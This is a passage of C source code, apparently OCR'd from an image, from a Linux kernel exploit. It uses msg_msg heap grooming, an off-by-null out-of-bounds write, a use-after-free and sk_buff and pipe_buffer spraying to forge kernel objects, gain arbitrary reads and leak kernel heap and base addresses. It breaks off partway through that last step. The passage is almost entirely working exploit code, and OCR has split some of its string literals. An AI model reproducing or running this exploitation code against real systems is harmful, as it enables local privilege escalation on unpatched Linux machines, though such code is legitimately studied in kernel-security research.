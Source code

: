 ```
 Create holes in primary msg_msg...");    for (int i = 0; i < MSG_QUEUE_NUM; i += 1024)    {        if (readMsg(msqid[i], &primary_msg,                 sizeof(primary_msg), PRIMARY_MSG_TYPE) < 0)            errExit("failed to receive primary msg!");    }    // triger off-by-null on primary msg_msg    puts("
 Trigger OOB write to construct the overlapping...");    trigerOutOfBoundWrite(oob_pipe_fd);    // find the queues that have the same secondary msg_msg    puts("
 Checking whether succeeded to make overlapping...");    victim_qid = real_qid = -1;    for (int i = 0; i < MSG_QUEUE_NUM; i++)    {        if ((i % 1024) == 0)  // the hole            continue;        if (peekMsg(msqid[i], &secondary_msg,                 sizeof(secondary_msg), 1) < 0)        {            printf("[x] error qid: %d\n", i);            errExit("failed to receive secondary msg!");        }        if (*(int*) &secondary_msg.mtext[0] != MSG_TAG)            errExit("failed to make corruption!");        if (*(int*) &secondary_msg.mtext[4] != i)        {            victim_qid = i;            real_qid = *(int*) &secondary_msg.mtext[4];            break;        }    }    if (victim_qid < 0)        errExit("failed to make overlapping!");    printf("\033[32m\033[1m[+] victim qid:\033[0m %d \033[32m\033[1m real qid: \033[0m %d\n",             victim_qid, real_qid);    /*     * Step.II     * construct UAF     */    puts("\n\033[34m\033[1m
 Step.II construct UAF\033[0m");    // free the victim secondary msg_msg, then we get a UAF    if (readMsg(msqid[real_qid], &secondary_msg,                 sizeof(secondary_msg), SECONDARY_MSG_TYPE) < 0)        errExit("failed to receive secondary msg!");    puts("\033[32m\033[1m[+] UAF construction complete!\033[0m");    /*     * Step.III     * spray sk_buff to leak msg_msg addr     * construct fake msg_msg to leak addr of UAF obj     */    puts("\n\033[34m\033[1m
 Step.III spray sk_buff to leak kheap addr\033[0m");    // spray sk_buff to construct fake msg_msg    puts("
 spray sk_buff...");    buildMsg((struct msg_msg *)fake_secondary_msg,             *(uint64_t*)"arttnba3", *(uint64_t*)"arttnba3",             VICTIM_MSG_TYPE, 0x1000 - sizeof(struct msg_msg), 0, 0);    if (spraySkBuff(sk_sockets, fake_secondary_msg,             sizeof(fake_secondary_msg)) < 0)        errExit("failed to spray sk_buff!");    // use fake msg_msg to read OOB    puts("
 OOB read from victim msg_msg");    if (peekMsg(msqid[victim_qid], &oob_msg, sizeof(oob_msg), 1) < 0)        errExit("failed to read victim msg!");    if (*(int *)&oob_msg.mtext[SECONDARY_MSG_SIZE] != MSG_TAG)        errExit("failed to rehit the UAF object!");    nearby_msg = (struct msg_msg*)             &oob_msg.mtext[(SECONDARY_MSG_SIZE) - sizeof(struct msg_msg)];    printf("\033[32m\033[1m[+] addr of primary msg of msg nearby victim: \033[0m%llx\n",             nearby_msg->m_list.prev);    // release and re-spray sk_buff to construct fake msg_msg    // so that we can make an arbitrary read on a primary msg_msg    if (freeSkBuff(sk_sockets, fake_secondary_msg,             sizeof(fake_secondary_msg)) < 0)        errExit("failed to release sk_buff!");    buildMsg((struct msg_msg *)fake_secondary_msg,             *(uint64_t*)"arttnba3", *(uint64_t*)"arttnba3",             VICTIM_MSG_TYPE, sizeof(oob_msg.mtext),             nearby_msg->m_list.prev - 8, 0);    if (spraySkBuff(sk_sockets, fake_secondary_msg,             sizeof(fake_secondary_msg)) < 0)        errExit("failed to spray sk_buff!");    puts("
 arbitrary read on primary msg of msg nearby victim");    if (peekMsg(msqid[victim_qid], &oob_msg, sizeof(oob_msg), 1) < 0)        errExit("failed to read victim msg!");    if (*(int *)&oob_msg.mtext[0x1000] != MSG_TAG)        errExit("failed to rehit the UAF object!");    // cal the addr of UAF obj by the header we just read out    nearby_msg_prim = (struct msg_msg*)             &oob_msg.mtext[0x1000 - sizeof(struct msg_msg)];    victim_addr = nearby_msg_prim->m_list.next - 0x400;    printf("\033[32m\033[1m[+] addr of msg next to victim: \033[0m%llx\n",             nearby_msg_prim->m_list.next);    printf("\033[32m\033[1m[+] addr of msg UAF object: \033[0m%llx\n", victim_addr);    /*     * Step.IV     * fix the header of UAF obj and release it     * spray pipe_buffer and leak the kernel base     */    puts("\n\033[34m\033[1m
 Step.IV spray pipe_buffer to leak kernel base\033[0m");    // re-construct the msg_msg to fix it    puts("
 fixing the UAF obj as a msg_msg...");    if (freeSkBuff(sk_sockets, fake_secondary_msg,             sizeof(fake_secondary_msg)) < 0)        errExit("failed to release sk_buff!");    memset(fake_secondary_msg, 0, sizeof(fake_secondary_msg));    buildMsg((struct msg_msg *)fake_secondary_msg,             victim_addr + 0x800, victim_addr + 0x800, // a valid kheap addr is valid            VICTIM_MSG_TYPE, SECONDARY_MSG_SIZE - sizeof(struct msg_msg),             0, 0);    if (spraySkBuff(sk_sockets, fake_secondary_msg,             sizeof(fake_secondary_msg)) < 0)        errExit("failed to spray sk_buff!");    // release UAF obj as secondary msg    puts("
 release UAF obj in message queue...");    if (readMsg(msqid[victim_qid], &secondary_msg,                 sizeof(secondary_msg), VICTIM_MSG_TYPE) < 0)        errExit("failed to receive secondary msg!");    // spray pipe_buffer    puts("
```
